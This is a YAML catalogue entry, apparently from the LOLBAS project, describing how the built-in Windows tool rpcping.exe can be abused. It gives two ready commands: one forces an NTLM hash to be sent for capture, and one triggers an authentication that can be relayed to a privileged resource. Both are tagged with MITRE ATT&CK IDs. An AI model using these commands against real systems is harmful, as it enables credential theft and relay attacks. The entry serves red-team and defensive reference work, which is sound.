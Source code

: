 ```yaml
---
Name: Rpcping.exe
Description: Used to verify rpc connection
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
    Description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
    Usecase: Capture credentials on a non-standard port
    Category: Credentials
    Privileges: User
    MitreID: T1003
    MitreLink: https://attack.mitre.org/wiki/Technique/T1003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rpcping /s 10.0.0.35 /e 9997 /a connect /u NTLM
    Description: Trigger an authenticated RPC call to the target server (/s) that could be relayed to a privileged resource (Sign not Set).
    Usecase: Relay a NTLM authentication over RPC (ncacn_ip_tcp) on a custom port
    Category: Credentials
    Privileges: User
    MitreID: T1187
    MitreLink: https://attack.mitre.org/techniques/T1187/
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\rpcping.exe
  - Path: C:\Windows\SysWOW64\rpcping.exe
Code_Sample:
- Code:
Detection:
 - IOC:
Resources:
  - Link: https://github.com/vysec/RedTips
  - Link: https://twitter.com/vysecurity/status/974806438316072960
  - Link: https://twitter.com/vysecurity/status/873181705024266241
  - Link: https://twitter.com/splinter_code/status/1421144623678988298
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Vincent Yiu
    Handle: '@vysecurity'
  - Person: Antonio Cocomazzi
    Handle: '@splinter_code'
  - Person: ap
    Handle: '@decoder_it'
---
```

